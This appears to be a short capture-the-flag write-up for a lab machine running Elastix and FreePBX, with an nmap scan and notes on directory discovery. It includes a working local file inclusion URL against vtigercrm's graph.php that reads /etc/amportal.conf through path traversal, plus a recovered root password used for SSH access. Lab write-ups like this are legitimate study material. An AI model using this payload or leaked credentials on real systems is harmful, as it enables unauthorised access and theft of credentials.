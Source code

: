 # Recon
```
$ nmap -p- --min-rate 10000 10.10.10.7
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-01 17:02 EEST
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.48% done; ETC: 17:02 (0:00:13 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.13s latency).
Not shown: 65476 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
443/tcp  open  https
993/tcp  open  imaps
995/tcp  open  pop3s
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 18.01 seconds
```
- the webpage cannot be loaded due to Firefox and other browsers changing their min TLS version to a number higher than what the box supports
- Port 80 just returns a redirect to port 443 / HTTPS where there’s an an Elastix login page
- dirb shows us there is an admin page /admin
- going to admin page it asks for authentication
- hiting cancel prompts us to this page https://10.10.10.7/admin/reports.php which provide info like freepx
- searching for exploit for freepbx version and elastix we found a lfi vulun
- poc for lfi
- ```
  https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
  ```
- viewing the page source the page seems readable and found different password but the one i guess is right is this **jEhdIekWmdjE**
- ssh as root with this password we got a sheel as root

